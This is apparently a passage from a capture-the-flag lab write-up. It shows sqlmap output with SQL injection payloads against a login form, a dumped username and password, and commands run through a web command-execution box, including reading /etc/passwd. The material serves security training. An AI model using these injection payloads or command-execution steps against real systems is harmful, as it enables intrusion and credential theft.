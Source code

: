 ```
sqlmap -u http://10.10.5.111/administrator.php --forms --dump

Parameter: username (POST)
Type: boolean-based blind
Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
Payload: username=iewm' RLIKE (SELECT (CASE WHEN (6931=6931) THEN 0x6965776d ELSE 0x28 END))-- pxHY&password=

Type: error-based
Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
Payload: username=iewm' AND GTID_SUBSET(CONCAT(0x7178787a71,(SELECT (ELT(1090=1090,1))),0x7171767871),1090)-- qgeV&password=

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: username=iewm' AND (SELECT 7299 FROM (SELECT(SLEEP(5)))IoDT)-- SNGS&password=

---

Database: users
Table: users
[1 entry]
+------------+----------+
| password | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+
```

After login the rce input says "command"...bruh we know its RCE but damn that was direct

```
ls

2591c98b70119fe624898b1e424b5e91.php administrator.php index.html index.html
```

```
cat /etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false syslog:x:104:108::/home/syslog:/bin/false \_apt:x:105:65534::/nonexistent:/bin/false messagebus:x:106:110::/var/run/dbus:/bin/false uuidd:x:107:111::/run/uuidd:/bin/false papa:x:1000:1000:qaa:/home/papa:/bin/bash mysql:x:108:116:MySQL Server,,,:/nonexistent:/bin/false sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin pingu:x:1002:1002::/home/pingu:/bin/bash pingu:x:1002:1002::/home/pingu:/bin/bash
```
